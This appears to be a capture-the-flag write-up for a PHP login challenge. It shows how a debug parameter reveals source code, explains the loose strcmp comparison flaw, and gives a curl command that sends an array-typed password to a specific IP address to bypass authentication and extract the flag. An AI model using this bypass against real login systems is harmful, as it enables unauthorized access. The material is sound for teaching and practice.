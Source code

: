 ## Solve:

- [ ] View the source code and see a debug option
  http://206.189.59.199:8003/?debug

  ```php
  if (isset($_POST['password'])) {
    if (strcmp($_POST['password'], $flag) == 0)
  ```
  
<br/>

- [ ] See that the password is compared with the flag using `strcmp` and brings up 2 problems:<br/>
    - The comparation uses only 2 equal signs `==`, meaning it only checks that the values are equal, whereas the proper way would be to use 3 equal signs `===`, so it checks for both value and type.
    - For older versions, strcmp is vulnerable: it can compare an empty array to a value and return `0` (True)
    
<br/> 

- [ ] Send a HTTP POST request in which the `password` argument is an empty **array**, then extract the flag.
  ```bash
  curl -s -X POST 'http://206.189.59.199:8003/' -d 'username=admin&password[]=&submit=Login' \
  | tail -n1 | awk -F'Flag: ' '{print $2}' | cut -d' ' -f1
  ```
